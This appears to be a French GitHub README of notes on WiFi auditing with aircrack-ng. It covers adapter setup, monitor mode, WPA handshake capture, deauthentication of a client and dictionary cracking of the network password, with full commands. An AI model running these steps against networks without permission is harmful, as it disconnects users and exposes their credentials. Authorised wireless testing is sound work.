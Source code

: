 ## Installation
1. Prérequis : 
    - Un système Linux (Ubuntu, Debian, Fedora, etc.).
    - Les droits d'administration (commande sudo).
    - Accès à Internet pour télécharger les pilotes.
    
2. Pilotes :
    - `lsusb` : voir si la carte est reconnu en usb
    - `ip link show` : lister interfaces réseaux

    Si rien n'est affiché, rechercher les pilotes et regarder les logs :
        - Dans ce cas j'utilise une AWUS036ACHM : `dmesg | grep mt7610`
   
## Configurations
1. Fichier manquants pour le firmware : `/lib/firmware/mediatek/`
    - `mt7610u.bin` `mt7610e.bin` sont des fichiers de conf à importer dans `/lib/firmware/mediatek/`
    - `git clone git://git.kernel.org/pub/scm/linux/kernel/git/firmware/linux-firmware.git`

2. Recharger les pilotes 
    - `sudo rmmod mt76x0u`
    - `sudo modprobe mt76x0u`

3. Voir si une erreur est présente : `dmesg | grep firmware`


4. Kill les processus
    - `sudo airmon-ng check kill`
        Effet : Cette commande désactive les services responsables des interférences
        Remarque : Après l'audit, vous pouvez redémarrer ces services pour rétablir la gestion classique des connexions WiFi.
![Screenshot_20250526_094939](https://github.com/user-attachments/assets/93654c09-a287-4668-b1f7-52c9f2712781)


## UP la carte et mode monitor
![alfa 1](https://github.com/user-attachments/assets/bf2410dd-acee-4394-b5d3-f8a703d51151)

- `sudo iwconfig // sudo ifconfig` : Montre toutes les interfaces avec les mode des cartes.

- `sudo ifconfig "INTERFACE" down` : Désactive l'interface réseau.
- `sudo iwconfig "INTERFACE" mode monitor` : Active le mode monitor.
- `sudo iwconfig "INTERFACE" mode managed` : Active le mode managed (de base).
- `sudo ifconfig "INTERFACE" up` : Active l'interface réseau.

![alfa 2](https://github.com/user-attachments/assets/4f7cdc10-bcc9-45c6-a035-5c5d57db0191)


## COMMANDES
- `sudo airmon-ng start "INTERFACE"` `sudo airmon-ng stop "INTERFACE"` avec `sudo iw "INTERFACE" del`
    But : Active le mode monitor sur l'interface spécifiée.
    Pourquoi : airmon-ng simplifie la gestion du mode monitor et s'assure qu'il n'y a pas de conflit avec d'autres processus.
- `sudo iw dev` pour voir la carte
- `sudo airodump-ng "INTERFACE"`
    But : Affiche une liste des réseaux WiFi détectés.
    Pourquoi : Cela vous permet de repérer le réseau cible et de récupérer son BSSID, son canal (CH) et son nom (ESSID).

- `sudo airodump-ng "INTERFACE" --bssid [BSSID] -c [CHANNEL] -w capture`
    Options détaillées :
        --bssid [BSSID] : Filtre les paquets pour capturer uniquement ceux provenant du point d'accès cible (adresse MAC).
        -c [CHANNEL] : Limite la capture au canal WiFi spécifié.
        -w capture : Enregistre les paquets capturés dans un fichier nommé capture-01.cap.
    Pourquoi : La capture est nécessaire pour récupérer une handshake WPA/WPA2, indispensable pour tenter de casser le mot de passe.

- Lorsqu'une handshake est capturée, vous verrez une ligne similaire à ceci : WPA handshake: [BSSID]
- Si vous ne voyez pas de handshake, cela signifie que :
    Aucun appareil ne s'est connecté ou reconnecté.
    Vous devrez provoquer une déconnexion/reconnexion

- Déconnecter l'appareil avec aireplay-ng
    Une fois que vous avez l'adresse MAC de l'appareil, vous pouvez l'utiliser pour envoyer un paquet de déconnexion (deauth) via aireplay-ng :
    - `sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] "INTERFACE"`
        --deauth 10 : Envoie 10 paquets de déconnexion (vous pouvez ajuster ce nombre selon vos besoins). Vous pouvez aussi envoyer un nombre plus élevé pour augmenter les chances de déconnexion.
        -a [BSSID] : L'adresse MAC de l'Access Point (routeur).
        -c [CLIENT_MAC] : L'adresse MAC du client (appareil à déconnecter).
        "INTERFACE" : L'interface WiFi en mode monitor. 
        Important : L'appareil ciblé devrait se déconnecter et tenter une reconnexion automatiquement, ce qui générera une handshake WPA/WPA2.

- Vérifier si il y a bien un handshake 
    - `sudo aircrack-ng file.cap` (1 handshake)
    - `sudo tshark -r file.cap eapol`
    Sinon
    - `sudo wireshark -r file.cap` et chercher des fichier oapol
    - `sudo tshark -r file.cap -Y "eapol && wlan.addr==CLIENT"`



- `sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap`
    Options détaillées :
        -w [wordlist.txt] : Spécifie un fichier contenant une liste de mots de passe possibles.
        -b [BSSID] : Cible le point d'accès spécifié.
        capture-01.cap : Utilise le fichier de capture généré par airodump-ng.
    Pourquoi : Cette étape tente de casser le mot de passe en utilisant une attaque par dictionnaire.


## Restaurer les services après l’audit

Après avoir terminé, redémarrez les services pour reprendre une utilisation normale du WiFi :

- `sudo systemctl restart NetworkManager`
- `sudo systemctl restart wpa_supplicant`
